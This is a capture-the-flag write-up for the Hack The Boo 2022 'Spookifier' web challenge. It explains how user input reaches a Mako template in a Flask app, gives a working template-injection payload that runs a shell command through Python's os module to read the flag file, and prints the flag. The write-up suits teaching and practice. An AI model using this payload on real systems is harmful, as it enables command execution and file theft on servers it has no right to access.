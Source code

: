# Hack The Boo 2022

## Spookifier

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
>
>  Author: N/A
>
> [`web_spookifier.zip`](web_spookifier.zip)

Tags: _web_

## Preparation
The challenge provides a simple webpage that allows entering a name and converting the name to be written in *spooky* typo. Entering the username is the only real interaction one can do so this seems to be a good candidate for placing some kind of payload. Looking at the provided code the only endpoint available is ```/```

```python
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
```

Which in turn calls ```spookify```

```python
def change_font(text_list):
        text_list = [*text_list]
        current_font = []
        all_fonts = []

        add_font_to_list = lambda text,font_type : (
                [current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
                ) and None

        add_font_to_list(text_list, 'font1')
        add_font_to_list(text_list, 'font2')
        add_font_to_list(text_list, 'font3')
        add_font_to_list(text_list, 'font4')

        return all_fonts

def spookify(text):
        converted_fonts = change_font(text_list=text)

        return generate_render(converted_fonts=converted_fonts)
```

The functions are merely looking up characters from some provided font arrays and replacing the original characters. Interesstingly the number of supported characters is small, most importantly *<* and *>* are not available canceling out *xxs* or *xxe* attacks. 

So futher inspecting the source code shows that the application uses Mako templates which allow injecting payloads, most notably payloads with access to the ```os``` module.

```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify
```

## Solution

Since the flag location is known by the provided materials, entering ```${self.module.cache.util.os.popen("cat ../flag.txt").read()}``` as name leads to the flag ```HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}```